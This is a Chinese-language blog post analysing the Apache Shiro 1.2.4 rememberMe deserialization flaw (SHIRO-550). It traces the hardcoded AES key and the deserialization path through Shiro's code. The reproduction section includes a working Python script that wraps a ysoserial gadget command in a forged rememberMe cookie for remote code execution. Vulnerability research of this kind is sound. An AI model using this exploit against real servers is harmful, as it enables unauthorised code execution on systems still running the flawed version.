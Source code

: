```yaml
---
title: "Shiro rememberMe 反序列化分析"
date: 2020-04-29T11:49:36+08:00
draft: false
tags:
- java
- shiro
- 反序列化
series:
-
categories:
- 代码审计
---
```


Shiro 550
<!--more-->
## 复现
```bash
git clone https://github.com/apache/shiro.git
git checkout shiro-root-1.2.4
```
然后导入maven项目之后，在`samples/web/pom.xml`配置jstl版本和反序列化用到的gadget链依赖。

```xml
<properties>
    <maven.compiler.source>1.6</maven.compiler.source>
    <maven.compiler.target>1.6</maven.compiler.target>
</properties>
<dependency>
    <groupId>javax.servlet</groupId>
    <artifactId>jstl</artifactId>
    <!-- 配置版本 -->
    <version>1.2</version>
    <scope>runtime</scope>
</dependency>
<!-- 依赖cc链 -->
<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-collections4</artifactId>
    <version>4.0</version>
</dependency>
```

如果你爆了toolchains相关的错误，就在`C:\Users\username\.m2\toolchains.xml`配置toolchains

```xml
<?xml version="1.0" encoding="UTF8"?>
<toolchains>
    <toolchain>
        <type>jdk</type>
        <provides>
            <version>1.6</version>
            <vendor>sun</vendor>
        </provides>
        <configuration>
            <jdkHome>C:\Program Files\Java\jdk1.8.0_181</jdkHome>
        </configuration>
    </toolchain>
</toolchains>
```
maven package之后将war包放到tomcat7下部署，运行之后就是这样
![image.png](https://y4er.com/img/uploads/20200429117947.png)

使用[shiro_tool.jar](https://github.com/wyzxxz/shiro_rce)复现:
![image.png](https://y4er.com/img/uploads/20200429114017.png)


也可以使用python脚本

```python
import sys
import base64
import uuid
from random import Random
import subprocess
from Crypto.Cipher import AES

def encode_rememberme(payload,command):
    popen = subprocess.Popen(['java', '-jar', '../ysoserial/ysoserial-0.0.6-SNAPSHOT-all.jar', payload, command], stdout=subprocess.PIPE)
    BS   = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = "kPH+bIxk5D2deZiIxcaaaA=="
    mode =  AES.MODE_CBC
    #iv   =  base64.b64decode(rememberMe)[:16]   
    iv = uuid.uuid4().bytes
    print(iv)
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    print(sys.argv[1],sys.argv[2])
    payload = encode_rememberme(sys.argv[1],sys.argv[2])
    with open("payload.cookie", "w") as fpw:
        print("rememberMe={}".format(payload.decode()), file=fpw)
```
将文件中的贴到cookie中请求即可。

## 分析
首先要知道shiro是一个用来做身份验证的框架，其原理是基于servlet的filter进行的。在web.xml中定义了ShiroFilter，作用范围是当前目录下所有的url
![image.png](https://y4er.com/img/uploads/20200429118024.png)

cookie的处理在`CookieRememberMeManager`类，继承了`AbstractRememberMeManager`，在`AbstractRememberMeManager`中硬编码了加密密钥`DEFAULT_CIPHER_KEY_BYTES`
![image.png](https://y4er.com/img/uploads/20200429116644.png)

加密方式为AES对称加密，AES有了密钥还需要加密算法和初始化向量IV，`AbstractRememberMeManager`中加密函数调用了CipherService接口，实现其方法的是JcaCipherService类
![image.png](https://y4er.com/img/uploads/20200429113963.png)

在该类的encrypt()中发现IV自动生成，长度16个字节
![image.png](https://y4er.com/img/uploads/20200429110435.png)

并且加密模式为CBC
![image.png](https://y4er.com/img/uploads/20200429117537.png)

在encrypt中会先将IV写入
![image.png](https://y4er.com/img/uploads/20200429111239.png)

所以我们直接读原始cookie前16个字节获取。

最后一点就是在encrypt()中字节数组serialized在何处序列化和反序列化的？

serialized在convertPrincipalsToBytes()被赋值
![image.png](https://y4er.com/img/uploads/20200429113210.png)

可以看到是一个PrincipalCollection对象，而PrincipalCollection是一个接口，其实现类

![image.png](https://y4er.com/img/uploads/20200429112725.png)

仅有SimplePrincipalCollection实现了readObject，这也是反序列化的入口，但是在哪触发的？

在`org.apache.shiro.mgt.AbstractRememberMeManager#deserialize`中一步步跟进
![image.png](https://y4er.com/img/uploads/20200429117101.png)

最终找到了`org.apache.shiro.io.DefaultSerializer#deserialize`
![image.png](https://y4er.com/img/uploads/20200429119048.png)

到此为止

## 总结
因为AES硬编码的问题导致的RCE，自己对于加密与解密不是很了解，这方面有待学习。

## 参考
1. https://xz.aliyun.com/t/6493
2. https://xz.aliyun.com/t/7207
3. https://paper.seebug.org/shiro-rememberme-1-2-4/
4. https://issues.apache.org/jira/browse/SHIRO-550


**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**